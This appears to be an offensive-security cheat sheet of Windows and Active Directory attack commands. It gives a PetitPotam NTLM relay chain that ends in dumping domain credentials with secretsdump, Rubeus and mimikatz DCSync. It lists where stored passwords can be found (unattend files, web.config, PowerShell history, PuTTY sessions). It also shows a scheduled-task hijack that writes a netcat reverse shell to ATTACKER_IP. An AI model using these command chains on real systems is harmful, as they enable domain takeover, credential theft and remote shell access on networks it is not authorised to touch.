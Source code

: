 ```zsh
#
(Meterpreter 1)(C:\Windows\system32) > shell
```
## PetitPotam
```zsh
$ ntlmrelayx.py -debug -smb2support --target http://TEST-CA01.HOGE.COM/certsrv/certfnsh.asp --adcs --template DomainController
$ PetitPotam.py YYY.YYY.YYY.YYY XXX.XXX.XXX.XXX
$ ntlmrelayx.py -debug -smb2support --target http://TEST-CA01.HOGE.COM/certsrv/certfnsh.asp --adcs --template DomainController
$ gettgtpkinit.py HOGE.COM/TEST-DC01\$ -pfx-base64 TestBase64EncodedText TestDc01.ccache
$ export KRB5CCNAME=TestDc01.ccache
$ secretsdump.py -just-dc-user HOGE/administrator -k -no-pass "TEST-DC01$"@TEST-DC01.HOGE.COM
$ klist
$ crackmapexec smb XXX.XXX.XXX.XXX -u administrator -H TestNtHash
$ getnthash.py -key TestNtHash HOGE.COM/TEST-DC01$
$ secretsdump.py -just-dc-user HOGE/administrator "TEST-DC01$"@XXX.XXX.XXX.XXX -hashes TestNtHash:TestLmHash
PS> .\Rubeus.exe asktgt /user:TEST-DC01$ /certificate:TestBase64EncodedText /ptt
PS> klist
PS> .\mimikatz.exe
mimikatz# lsadump::dcsync /user:hoge\krbtgt
```

# config
```zsh
# unattended installations on Windows
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
# IIS
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```
```zsh
# Powershell
cmd> cmdtype %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
PS > Get-Content $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
# Credential Manager
cmd> cmdkey /list
cmd> runas /savecred /user:admin cmd.exe
cmd> type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
# PuTTy
PS > reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
```zsh
cmd> schtasks /query /tn TestVulnTask /fo list /v
cmd> icacls c:\TestTasks\TestSchTask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
                    
cmd> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > c:\TestTasks\TestSchTask.bat
Attacker Linux Machine> nc -lvp 4444
C:\> schtasks /run /tn TestVulnTask
```